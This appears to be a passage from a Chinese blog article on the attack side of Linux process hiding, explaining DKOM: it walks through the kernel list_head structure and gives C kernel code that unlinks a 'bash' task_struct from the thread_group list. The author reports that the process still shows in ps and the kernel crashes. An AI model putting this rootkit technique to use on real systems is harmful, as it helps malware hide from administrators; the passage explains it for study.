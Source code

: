 其中`next`和`prev`组成了一个连接对，而这在一个进程中的具体表现是`list_head`，每一个`task_struct`都包含了这个结构体：
```
struct list_head {
 struct list_head *next, *prev;
};
```
在`结构体`刚创建还未插入`链表`时，`next`和`prev`都是初始化指向自身的，链表并不关心数据层的类型，只关心`next`和`prev`指向谁。这样的不同的双向循环链表结构会提供给内核中的各个相关机制使用。那`DKOM隐藏`的原理就是把指定的`task_struct`从这个链表中提取出来。
> `断链重连`？

整个攻击的顺序就应该是:
1. 获取到链表
2. 遍历链表找到指定的`task_struct`
3. 记录指定`task_struct`的`list_head`
4. 修改指定`task_struct`前后的`list_head`，将其连接起来。

> 但是这儿有个问题就是不能破坏掉`cpu`调度的那一条链表，否则被隐藏的`进程`就失去了被调度的能力，彻底`消失`。

对于一个链表来说存在遍历函数`list_for_each_entry`还有`list_entry`，如果在遍历过程中直接使用`list_del`宏的话，就会出问题，因为`list_del`的效果是把`next`和`prev`设置成`LIST_POISON1`和`LIST_POISON2`，这会导致遍历的指针移动被中断，然后内核就`patch`了，这样就需要自己缓存`next`指针让遍历操作连贯起来。
```
 current_head=&(current->thread_group);
 list_for_each_entry(current_task,current_head,thread_group){
  if(strcmp("bash",current_task->comm)==0){
   hide_task = current_task;
   hide_head= current_head;
  }
 }
 prev_task= list_entry(hide_head->prev,typeof(*hide_task),thread_group);
 next_task= list_entry(hide_head->next,typeof(*hide_task),thread_group);
 prev_task->thread_group.next = &(next_task->thread_group);
 next_task->thread_group.prev = &(prev_task->thread_group);
 list_del_init(hide_head);
```
再次查询`双向链表`时候发现确实已经脱链了，然而还是能`ps`到指定的`进程`，而且后面还各种内核崩溃，只能重新去研究看看`proc_pid_readdir`的实现，看下别人是怎么找到的`进程`
```
proc_pid_readdir -> next_tgid -> pid_task -> hlist_entry
```
这儿就不得不再引入一种新的链表结构叫做`进程哈希链表`。

![76368721.png](进程隐藏技术的攻与防-攻篇_files/76368721.png)
